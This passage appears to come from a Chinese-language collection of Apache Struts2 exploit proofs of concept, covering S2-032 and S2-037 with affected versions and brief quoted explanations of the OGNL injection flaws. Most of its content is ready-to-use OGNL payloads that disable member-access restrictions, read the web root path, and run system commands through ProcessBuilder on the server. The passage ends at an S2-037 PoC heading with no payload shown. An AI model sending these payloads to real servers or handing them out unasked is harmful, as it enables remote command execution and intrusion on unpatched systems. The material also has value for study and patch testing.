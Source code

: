 ######## 执行系统命令
```
debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27whoami%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```

#### Struts2 S2-032

    影响版本: 2.3.20 - 2.3.28 (except 2.3.20.3 and 2.3.24.3)
    漏洞详情: https://struts.apache.org/docs/s2-032.html


> 在配置了 Struts2 DMI 为 True 的情况下，可以使用 method:<name> Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（Dynamic Method Invocation），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会，代码详情可参考阿尔法实验室的报告 - 《Apache Struts2 s2-032技术分析及漏洞检测脚本》

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

###### 构造PoC
######## 获取web根目录

```
?method:##_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,##req=##context.get(##parameters.a[0]),##resp=##context.get(##parameters.b[0]),##resp.setCharacterEncoding(##parameters.c[0]),##ot=##resp.getWriter (),##ot.print(##parameters.e[0]+##req.getSession().getServletContext().getRealPath(##parameters.d[0])),##ot.flush(),##ot.close&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```

######## 执行系统命令

```
?method:##_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,##a=(new java.lang.ProcessBuilder(##parameters.a[0])).start(),##b=##a.getInputStream(),##c=new java.io.InputStreamReader(##b),##d=new java.io.BufferedReader(##c),##e=new char[50000],##d.read(##e),##matt=##context.get(##parameters.b[0]),##matt.getWriter().println(##parameters.c[0]+new java.lang.String(##e)),##matt.getWriter().flush(),##matt.getWriter().close&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```

#### Struts2 S2-037

    影响版本: 2.3.20 - 2.3.28.1
    漏洞详情: http://struts.apache.org/docs/s2-037.html


> 这个漏洞和之前S2-032/033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

上文引用[nsfocus](http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)的描述

###### 构造PoC
######## 获取web根目录
